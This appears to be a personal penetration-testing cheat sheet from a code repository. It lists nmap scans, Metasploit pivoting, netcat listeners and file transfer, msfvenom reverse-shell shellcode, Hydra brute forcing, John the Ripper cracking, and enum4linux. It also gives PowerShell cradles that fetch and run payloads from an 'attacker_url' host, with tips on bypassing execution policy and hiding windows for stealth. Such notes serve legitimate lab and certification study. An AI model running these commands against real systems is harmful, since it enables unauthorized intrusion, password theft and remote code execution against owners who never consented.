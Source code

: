 
# vpn connection

sudo openvpn


---------------------------------


# Terminator keybinds 

//move around by word
ctrl + fn + left or right arrow

//delete whole word 
alt + backspace

//split horizontally 
ctrl + super + c

//split vertically
ctrl + super + v

//close terminal
shift + ctrl + w

//restore default zoom
ctrl + 0

//fullscreen a specific pane 
ctrl + shift + Z


---------------------------------


# Typical nmap commands 

//update scripts database
nmap --script-updatedb

//ping sweep, we can run this first to discover hosts
nmap -sn 

//also we can try running no ping to see any extra hosts hidden behind firewalls
nmap -n -sn

//Once we have hosts we can scan targets to check OS and service/version and run
default scripts
nmap -T4 -O -sV -sC

//if all ports are filtered on a host be sure to check for openings on udp port
161/ (SNMP)
nmap -sU -p 161,162 


---------------------------------


# add/view routes and network connections

route print  (Windows)

route -v   (Linux)

ip route add <targetIP> via <gateway>

arp   (show the ARP cache)

netstat


//this tells metasploit to route all traffic intended for network (1.1.1.0/24) 
through session 2 (our meterpreter session) just run this command from msfconsole
route add 1.1.1.0/24 255.255.255.0 2


// or we can run a script directly from a meterpreter session that does the sam
 thing as the command above this one
run autoroute -s 1.1.1.0/24


//this scan runs from an exploited machine to avoid IDS and firewalls, to
discover other hosts of an internal network. Run in meterpreter
run arp_scanner -r 10.10.10.0/24 

---------------------------------


# Netcat commands

//setup listener
nc -lvnp <port>

//file transfer recieving end
nc -l -p 1234 > output.file

//sending end
nc -w 3 [target] 1234 < output.file



---------------------------------


# grep for searching through large files

grep -i "string goes here" filename.txt



---------------------------------



# SSH tunneling

//-L initiates a tunnel
ssh -L localport:target:remoteport Name@sshserver.com



---------------------------------


# smbclient

smbclient \\\\targetmachine\\some-share -U username



---------------------------------


# MSF Venom/BufferOverflow

//create starting payload for BOF -l specifes length/size
msf-pattern_create -l <payloadsize>


//get offset
msf-pattern_offset -l <length> -q <EIP>


//BOF shellcode // -b "\x00" specifies to remove all null bytes, any other bad
bytes can be specified also
msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f py -b "\x00"



---------------------------------


# Hydra FTP brute forcing

hydra -t 20  -l /home/kali/Desktop/userslist -P /home/kali/Desktop/password.txt -vV <targetIP> ftp


---------------------------------


# John The Ripper password cracking 


//this one for windows passwords
john --wordlist=/home/kali/Desktop/rockyou.txt --format=NT /home/kali/Desktop/hashdump.txt

//this one for linux passwords, first unshadow them, then run John

unshadow [passwdfile] [shadowfile] > [output file name]

john --wordlist=/usr/share/john/password.lst [output file name]


---------------------------------


# enum4linux 


enum4linux.pl -a <targetIP> | tee enum4linux.log



---------------------------------


# PowerShell

// in memory download cradle. if using cmd prompt, use single quotes instead
This downloads and executes a remotely hosted PS script

PS C:\> iex (New-Object Net.WebClient).DownloadString("http://attacker_url/script.ps1")


//DownloadFile method. Do not use this if trying to remain stealthy. The local var is where the file will be
saved to

PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_url/payload.exe"
PS C:\> $local_file = "C:\programdata\payload.exe"
PS C:\> $downloader.DownloadFile($payload,$local_file)


//If trying to remain stealthy, also make sure to use the execution policy
bypass and window hidden options

C:\> powershell.exe -ExecutionPolicy Bypass -Window Hidden .\downloader.ps1


//there is a powershell port-scanner script if needed in the offensive
powershell folder



---------------------------------



# Meterpreter 

search -d /pathtobeginsearch -f *.extension

//helpful post-exploit enum scripts here
run post/windows/gather/



---------------------------------
